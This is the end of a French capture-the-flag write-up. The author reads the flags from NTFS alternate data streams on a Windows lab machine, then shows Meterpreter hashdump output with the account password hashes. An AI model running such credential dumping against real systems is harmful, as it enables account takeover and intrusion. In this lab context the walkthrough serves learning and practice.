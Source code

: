 ```plain

C:\Documents and Settings\Administrator\Desktop\flags>type "2 for the price of 1!.txt"
type "2 for the price of 1!.txt"
For limited time only!

Keep an eye on our ADS for new offers & discounts!

C:\Documents and Settings\Administrator\Desktop\flags>c:\windows\temp\streams.exe -accepteula -s
c:\windows\temp\streams.exe -accepteula -s

streams v1.60 - Reveal NTFS alternate streams.
Copyright (C) 2005-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Documents and Settings\Administrator\Desktop\flags\2 for the price of 1!.txt:
   :root_txt_3316ffe05fada8f8e651931a5c45edab:$DATA 5
   :user_txt_a6a4830ddd27a1bddd59d2aaa80f7940:$DATA 5
```

Il aura bien sûr fallut uploader au préalable l'utilitaire *streams.exe* pour afficher les deux flags :)  

Et juste pour le plaisir :  

```plain
meterpreter > run hashdump

[!] Meterpreter scripts are deprecated. Try post/windows/gather/smart_hashdump.
[!] Example: run post/windows/gather/smart_hashdump OPTION=value [...]
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 9909bedec93bff00d9b205b93de31b23...
/usr/share/metasploit-framework/lib/rex/script/base.rb:134: warning: constant OpenSSL::Cipher::Cipher is deprecated
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
/usr/share/metasploit-framework/lib/rex/script/base.rb:268: warning: constant OpenSSL::Cipher::Cipher is deprecated
/usr/share/metasploit-framework/lib/rex/script/base.rb:272: warning: constant OpenSSL::Cipher::Cipher is deprecated
/usr/share/metasploit-framework/lib/rex/script/base.rb:279: warning: constant OpenSSL::Cipher::Cipher is deprecated
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:6cae09c57777b136ed4a95a4bc732c2b:d61cd4a1818f9bb9325441cce8278163:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:40a3676535ccf1824fd6840439038a7c:34b7ee8bb3e302babd6770f2089cb8ed:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:4eeeedd989fd7a573c93050af7af2c8a:::
```

Conclusion
----------

Un CTF original qui mettait le focus sur une fonctionnalité méconnue de Windows. Toutefois j'ai hâte de voir si d'autres participants ont trouvé des solutions alternatives :)

*Published November 03 2018 at 17:09*